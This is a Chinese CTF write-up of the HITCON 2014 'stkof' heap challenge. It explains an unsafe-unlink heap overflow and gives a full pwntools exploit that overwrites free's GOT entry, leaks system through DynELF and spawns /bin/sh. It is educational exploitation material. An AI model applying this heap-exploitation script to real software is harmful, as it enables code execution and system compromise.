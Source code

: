 ```yaml
---
title: hitcon-ctf-2014/stkof writeup
date: 2017-09-16 12:03:19
tags:
- pwn
- heap
---
```


how2heap之unsafe unlink的应用实战，加深对其理解。
<!-- more -->

例子和一些writeup可以去<https://github.com/ctfs>里面找。
这道题的功能很简单，再通过IDA分析后，共有4个功能。
```
1	添加模块，此处分配内存，而且索引从1开始。
2	编辑模块，此处在所分配的内存中填写信息，但是此处没有限制输入长度。
3	删除模块，输入索引值即可删除，此处将指针置NULL。
4	输出内容，不是输出模块内存储内容，而是判断存储内容长度来输入其他字符串。
```

这里存在着明显的堆溢出，但是不能使用UAF来做了，可以构造`shrink chunk`，利用`unsafe unlink`达到任意地址读写。`unsafe unlink`的利用可以参考我上一篇文章。
利用步骤为：
```
1. 连续申请4个small chunk大小的堆,比如堆大小为0x90。
2. 选择在.bss段上的目标地址。根据unsafe unlink,构造payload，溢出堆2，覆盖堆3的meta data。
3. free堆3，然后我们就控制目标地址，可以对任意地址进行读写。
4. 为了泄露出system的内存地址，我们要通过puts或write等函数输出system的内存地址，所以将puts函数入口地址覆盖掉free的got表内容。
5. 使用DynELF找到system的内存地址。
6. 将system的内存地址覆盖掉free的got表内容。
7. 将'/bin/sh'写入内存并通过删除模块操作来触发system('/bin/sh\0')。
```

整体的代码为

```
from pwn import *
context.log_level = 'debug'
p = process('./stkof')
stkof_elf = ELF('./stkof')
print proc.pidof(p)[0]
#gdb.attach(proc.pidof(p)[0], 'b * 0x400AE3\n b*0x400B7F')
#pause()
def add(len):
    p.sendline('1')
    p.sendline(str(len))
    p.recvuntil('\n')
    p.recvuntil('\n')

def delete(idx):
    p.sendline('3')
    p.sendline(str(idx))

def edit(idx, content):
    p.sendline('2')
    p.sendline(str(idx))
    p.sendline(str(len(content)))
    #the difference between send and sendline
    p.send(content)
    p.recvuntil('\n')

def show(idx):
    p.sendline('4')
    p.sendline(str(idx))
    p.recvuntil('\n')
    p.recvuntil('\n')

bag=0x0602140
target=bag+0x8*2
FD=target - 0x8*3
BK=target - 0x8*2

free_plt = stkof_elf.symbols['free']
puts_plt = stkof_elf.symbols['puts']
free_got = stkof_elf.got['free']
print 'puts plt is '+ hex(puts_plt)
print 'free got is '+ hex(free_got)

add(0x90-8)	#1
add(0x90-8) #2
add(0x90-8) #3
add(0x90-8) #4

payload = p64(0)+p64(8)+p64(FD) + p64(BK)+ 0x60*'A'
payload += p64(0x80)+ p64(0x90)

edit(2, payload)
delete(3)
p.recvuntil('\n')


# replace free_got by puts_plt
edit(2, "A"*16+p64(free_got))
edit(1, p64(puts_plt))
# leak system in libc address

def leak(addr):
    edit(2, 'A'*16+p64(addr))
    delete(1)
    str = p.recvuntil('OK\n')
    print str
    result = str.split('\x0aOK')[0]
    if result=='':
        return '\x00'
    return result

d = DynELF(leak, elf=ELF('./stkof'))
sys_addr = int(d.lookup('system', 'libc'))

#libc = stkof_elf.libc
print hex(sys_addr)

#write /bin/sh to memory
edit(4, '/bin/sh\0')

# write sys_addr to free
edit(2, 'A'*16+p64(free_got))
edit(1, p64(sys_addr))

# trigger free('/bin/sh')
delete(4)

p.interactive()

```


# 参考文献
[1] [writeup hitcon-ctf-2014/stkof](http://blog.csdn.net/fuchuangbob/article/details/51649353)
[2] [CTF Writeup - HITCON CTF 2014 stkof or the "unexploitable" heap overflow ?](http://acez.re/ctf-writeup-hitcon-ctf-2014-stkof-or-modern-heap-overflow/)